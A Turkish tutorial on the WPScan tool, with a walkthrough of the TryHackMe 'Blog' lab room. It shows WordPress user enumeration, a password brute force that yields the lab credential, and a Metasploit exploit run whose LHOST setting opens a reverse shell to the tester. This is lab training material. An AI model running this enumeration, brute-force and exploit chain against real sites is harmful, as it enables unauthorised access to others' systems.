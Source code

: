 # Wpscan

<figure><img src="../.gitbook/assets/wpscan_logo.png" alt=""><figcaption></figcaption></figure>

Wpscan açık kaynak kodlu geliştirilmiş ve terminalde çalıştırılan bir araçtır. WordPress kullanan sitelerde tarama yapmak için kullanılır.

WordPress siteleri hakkında temel bilgileri ve varsa güvenlik zafiyetleri hakkında bilgi verir. Kali Lİnux üzerinde yüklü olarak gelir.&#x20;

Biraz Wpscan aracının yapabildiklerinden bahsedelim:

* Tema taraması
* Eklenti taraması
* Brute Force
* Dizin taraması vb.

Eğer başka bir dağıtım kullanıyorsanız aşşağıdaki kod ile Wpscan aracınızı indirebilirsiniz.

```
gem install wpscan
```

Aracımızın sahip olduğu parametreleri görmek için şu komutu kullanıyoruz:

```
wpscan -h
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Bir web sitesi üzerinde tarama gerçekleştireceğimiz için bir url parametresine ihtiyacımız var. `--url` parametresiyle test edeceğimiz web sitesini parametre olarak veriyoruz.

Ayrıca aracın hangi türde bir tarama yapacağından bahsetmemiz lazım bunun içinde `--enumerate` parametresini kullanıyoruz.

\--enumerate parametresiyle seçenekler vermemiz lazım:

* t : Popüler temaları tarar
* vt : Zafiyetli temaları tarar
* p : Popüler eklentileri tarar
* vp : Zafiyetli eklentileri tarar
* ap : Bütün eklentileri tarar

Verilen --url parametresine göre popüler temaları tarar:

```
wpscan --url <ip/url> --enumerate t
```

\-vt parametresiyle zafiyetli temaları tarar:

```
wpscan --url <ip/url> --enumerate vt
```

\-p parametresiyle popüler eklentileri tarar:

```
wpscan --url <ip/url> --enumerate p
```

\-vp parametresiyle zafiyetli eklentileri tarar:

```
wpscan --url <ip/url> --enumerate vp
```

\-at parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate at
```

\-ap parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate ap
```

Wpscan aracımızı daha iyi tanımak ve kullanabilmek için [Try Hack Me Blog](https://tryhackme.com/r/room/blog) odasında kullanacağım. Öncelikle web sitemizi çalıştırıyoruz. Öncelikle Try Hack Me tarafından bana verilen Ip adresini /etc/hosts altındaki dosyaya ekliyorum.

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Sonrasında tarayıcımdan blog.thm adresine gidiyorum. Ve sitede gezinirken en alt tarafta sitenin WordPress ile geliştirildiğine dair bir yazı yer alıyor.

<figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Wpscan aracımız ile site üzerinde tarama yapabiliriz. Öncelikle zafiyetli eklentiler için bir tarama yapalım bunun için şu komutu yazıyoruz:

```
wpscan --url blog.thm --enumerate vp
```

Bu sorgunun sonucu olarak yararlı bir şey çıkmıyor. Var olan kullanıcıları listeleyeim ve sonrasında brute force deneyelim.&#x20;

```
wpscan --url blog.thm --enumerate u
```

Bu işlemden sonra karşımıza şöyle bir sonuç çıkıyor.

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

2 tane kullanıcımız var Karen Wheeler ve Bill Joel. Bunların kullanıcı adları sırasıyla kwhell ve bjoel. Kullanıcı adlarını bulduğumuza göre login ekranına brute force deneyelim. Öncelikle kwhell kullanıcısı için bir komut yazacağım. Eğer şifreyi bulamazsak bjoel kullanıcısı içinde bir komut yazacağım.&#x20;

```
wpscan --url blog.thm --usernames kwheel --passwords <sifre.txt>
```

Bu işlem sonucunda geçerli bir şifre elde ediyoruz.

<figure><img src="../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

`kwheel - cutiepie1` bu bilgiler ile giriş yapalım ve bakalım sonrasında neler yapabiliyoruz.&#x20;

<figure><img src="../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

Giriş yaptıktan sonra karşımıza ektra bir şey çıkmıyor. Web sitesi özelinde temel işle yapabiliyoruz. Bizim sunucuda olan dosyalarla işimiz var. WordPress'in eski sürümlerinde zafiyet olabilir ve biz bu zafiyeti kullanabiliriz. Zafiyetleri görmek için yukarıda yaptığımız `wpscan --url blog.thm --enumerate vp` komutundan biraz daha farklı bir şey yazacağız. Yukarıdaki gibi bir komut yazarsak Wpscan bize zafiyetleri göstermiyor.&#x20;

Bize zafiyetleri göstermesini istiyorsak [Wpscan](https://wpscan.com/profile/) adresinden bize sağlanan token değerini parametre olarak vermemiz gerekiyor.&#x20;

```
wpscan --url blog.thm --enumerate vp --api-token <token>
```

Bu kod sonrasında sistemden şöyle bir çıktı almamız sağlar.&#x20;

<figure><img src="../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Çıktı olarak 70 tane zafiyetin olduğunu gösteriyor. WordPress sürümünü de öğrendikten sonra msfconsole üzerinden zafiyet araması yapabiliriz.

<figure><img src="../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Karşımızı bu sonuçlar çıkıyor. `use 0` diyerek payloadımı seçiyorum. Sonrasında payloadın bize sunduğu ayarları görmek için `show options` diyorum.&#x20;

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Sırasıyla şu ayarlamaları yapıyorum.&#x20;

<pre><code>set PASSWORD cutiepie1
<strong>set RHOSTS 10.10.154.220 // THM odasının çalıştığı IP adresini veriyoruz
</strong>set USERNAME kwheel
set LHOST 10.6.63.226  // THM odasına bağlandığımız IP adresi
run
</code></pre>

Run komutuyla birlikte exploitimiz çalışmaya başlıyor. Buradaki amacımız var olan bir zafiyeti sömürerek shell almaya çalışıyoruz.

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

Ve evet shell aldık, sistem üzerinde komutlar çalıştırabiliyoruz.&#x20;
